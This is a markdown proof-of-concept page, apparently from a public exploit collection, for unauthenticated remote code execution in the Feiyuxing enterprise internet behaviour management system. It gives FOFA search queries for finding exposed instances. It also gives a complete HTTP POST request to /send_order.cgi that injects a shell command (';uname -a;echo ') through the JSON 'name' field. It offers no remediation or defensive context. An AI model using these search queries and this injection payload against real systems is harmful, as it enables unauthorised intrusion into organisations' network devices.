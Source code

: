 ## 飞鱼星上网行为管理系统企业版前台RCE


## fofa
```
title="飞鱼星企业"
title="飞鱼星企业级智能上网行为管理系统"
```

## poc
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

{"opid":"777777777777777777","name":";uname -a;echo ","type":"rest"}
```

![d3caa0beea2be24633c0996d8ae8819c](https://github.com/wy876/POC/assets/139549762/1be7ce47-2ee2-476c-af85-c258c27dc95f)
